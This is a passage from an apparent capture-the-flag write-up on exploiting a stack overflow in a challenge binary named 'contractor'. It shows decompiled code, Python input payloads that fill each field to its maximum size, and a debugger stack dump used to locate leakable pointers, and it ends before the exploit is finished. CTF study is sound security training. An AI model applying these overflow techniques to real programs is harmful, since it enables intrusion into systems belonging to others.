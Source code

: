 Code is kinda huge and it has a TON of weird instructions such as `*(undefined8 *)((long)piVar5 + -0x138) = 0x65214bace9fd`.
The important things we have to notice are:

1. The data we write is printed back: `printf("\n[%sSir Alaric%s]: So, to sum things up: \n\n+------------------------------------------- -----------------------------+\n\n\t[Name]: %s\n\t[Reason to join]: %s\n\t[Age]: %ld\n\t[Specialty ]: %s\n\n+------------------------------------------------------------------------+\n\n"`. Could be useful for leaks.
2. When the specialty is inquired about, the maximum input size is 0x10, as per the for: `for (i = 0; i < 0x10; i = i + 1)`.
3. When the specialty is edited, the maximum input size is 0x100. Smells like an overflow.

Indeed it turns out to be an overflow, if we fill in the maximum length of all our inputs and then inspect the program state in a debugger, we can notice various things.

Firstly, we can fill the inputs like this in Python:

```py
# Name
target.send(b"a" * 0x10)

# Reason
target.send(b"b" * 0x100)

# Age
target.sendline(b"9223372036854775808")

# Specialty
target.send(b"c" * 0x10)
```

Then if we inspect the program with a debugger, after all payloads are sent:

```
pwndbg> stack 50
00:0000│ rsp 0x7ffc78a01150 —▸ 0x7ffc78a01278 ◂— 0x6363636363636363 ('cccccccc')
01:0008│-158 0x7ffc78a01158 —▸ 0x6281c512567f (main+574) ◂— movzx eax, byte ptr [rip + 0x29a6]
02:0010│ rcx 0x7ffc78a01160 ◂— 0x6161616161616161 ('aaaaaaaa')
03:0018│-148 0x7ffc78a01168 ◂— 0x6161616161616161 ('aaaaaaaa')
04:0020│ r8  0x7ffc78a01170 ◂— 0x6262626262626262 ('bbbbbbbb')
... ↓        31 skipped
24:0120│-040 0x7ffc78a01270 ◂— 0x7fffffffffffffff
25:0128│-038 0x7ffc78a01278 ◂— 0x6363636363636363 ('cccccccc')
26:0130│-030 0x7ffc78a01280 ◂— 0x6363636363636363 ('cccccccc')
27:0138│-028 0x7ffc78a01288 —▸ 0x6281c5125b50 (__libc_csu_init) ◂— endbr64 
28:0140│-020 0x7ffc78a01290 ◂— 0
29:0148│-018 0x7ffc78a01298 —▸ 0x7ffc78a01160 ◂— 0x6161616161616161 ('aaaaaaaa')
2a:0150│-010 0x7ffc78a012a0 —▸ 0x7ffc78a013a0 ◂— 1
2b:0158│-008 0x7ffc78a012a8 ◂— 0x1e6d270a9f6a300
2c:0160│ rbp 0x7ffc78a012b0 ◂— 0
2d:0168│+008 0x7ffc78a012b8 —▸ 0x7c12aa79b083 (__libc_start_main+243) ◂— mov edi, eax
2e:0170│+010 0x7ffc78a012c0 ◂— 0x200000021 /* '!' */
2f:0178│+018 0x7ffc78a012c8 —▸ 0x7ffc78a013a8 —▸ 0x7ffc78a032d8 ◂— './contractor'
30:0180│+020 0x7ffc78a012d0 ◂— 0x1aa95f7a0
31:0188│+028 0x7ffc78a012d8 —▸ 0x6281c5125441 (main) ◂— endbr64 
```
